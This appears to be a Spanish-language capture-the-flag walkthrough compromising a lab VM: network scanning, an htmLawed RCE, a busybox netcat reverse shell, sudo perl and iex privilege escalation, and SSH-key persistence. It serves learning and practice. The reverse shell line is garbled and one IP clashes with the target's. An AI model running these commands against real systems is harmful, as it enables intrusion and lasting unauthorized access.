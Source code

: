 Identificamos el equipo a vulnerar -> netdiscover -r 192.168.1.0/24 e identificamos la ip 192.168.1.56

Realizamos un escaneo de puertos rápido y sencillo para determinar todos aquellos puertos abiertos en la máquina e identificar posibles vectores de ataque.

nmap -p- --open --min-rate 5000 -n -Pn 192.168.1.56

Una vez visualizados los dos puertos abiertos (ssh, http), realizamos un escaneo más exhaustivo con una lista de scripts de reconocimiento por defecto para determinar los servicios

nmap -p 22,80 -sVC 192.168.1.56

Ya con el nmap, vemos que el servicio tiene una página robots.txt

Al ser un servicio web por http, podemos realizar un pequeño chequeo de diferentes directorios dentro de la página web, mientras inspeccionamos la página a mano:

dirb http://192.168.1.55

Mientras se ejecuta revisamos la página principal y vemos que es la normal de un apache. El dirbuster nos ha determinado dos un robots.txt y un index.html. Dentro del robots.txt nos sugiere otro direccionamiento, por lo que accedemos a revisarlo

Parece la documentación de un script en php que permite procesar texto de HTML. Es una capa de seguridad qye puede llegar a neutralizar vulnerabilidades de XSS (crosSite Scripting), en este caso parece deshabilitada. Leyendo el documento, vemos que el software se apoya de un ejecutable "htmLawed.php", por lo que intentamos ejecutar el script. Vemos que existe la ruta http://192.168.1.56/htmLawed/htmLawed.php pero al entrar no parece hacer nada.

Si buscamos información, encontraremos un repositorio en github con información adicional: https://github.com/kesar/HTMLawed. Dentro encontramos diferentes scripts php que nos pueden servir, en específico uno que es htmLawed_test.php. Al entrar, vemos un cuadro de texto para probar comandos en JS, y podemos procesarlo o ejecutarlo directamente sobre el navegador. Esto no nos ofrece mucho ya que no tenemos forma de ejcutar código malicioso dentro de la página.

Buscamos un exploit que pueda vulnerar la máquina y nos deje ejecutar un RCE en el cuadro de texto. Buscando encontramos una PoC, en la cual al enviarle hook=exec, se puede ejecutar comandos en el recuadro de texto


Viendo este RCE, vamos a enviarnos una reverse shell a nuestro equipo. Probé diferentes formas y solo me funcionó la reverse shell con el uso de 'busybox' y netcat:

busybox	nc scs4192.168.1.103 445 -e /bin/bash

Buscamos escalar privilegios a algún usuario del sistemas
ls -la /home

Vemos un directorio "noname" en el que solo los usuarios y grupos de noname pueden acceder

sudo -l
POdemos observar, que al chequear los permisos de sudo, tenemos permisos para ejecutar perl como noname y sin pass:

sudo -u noname /usr/bin/perl "exec '/bin/bash'"

Una vez siendo noname, podemos leer la flag:

BONUS:
Podemos mantener una persistencia, para no tener que repetir el proceso en caso de volver a conectarse con el usuario, y sin cambiarle la contraseña ni nada, la forma es crear un par clave con ssh-keygen para así, poder conectarnos mediante la clave privada al sistema, las veces que queramos. Creamos las claves con ssh-keygen, y una vez finaliza, copiamos id_rsa (clave privada) la cual será la que usaremos para realizar las conexiones remotas. Por el otro lado, la clave pública será copiada dentro del archivo de la máquina víctima ~/.ssh/authorized_keys.


Una vez tenemos la flag, tenemos que escalar los privilegios a root para conseguir un acceso completo, revisando los permisos vemos que podemos ejecutar como root sin contraseña "/usr/bin/iex"
Buscando un poco de información, podemos ver que se pueden ejecutar comandos del sistema dentro de la consola con:
:os.cmd('command') (con comillas simples, dobles no funciona)

Sabiendo esto, podemos movernos y obtener la flag de root de forma sencilla.

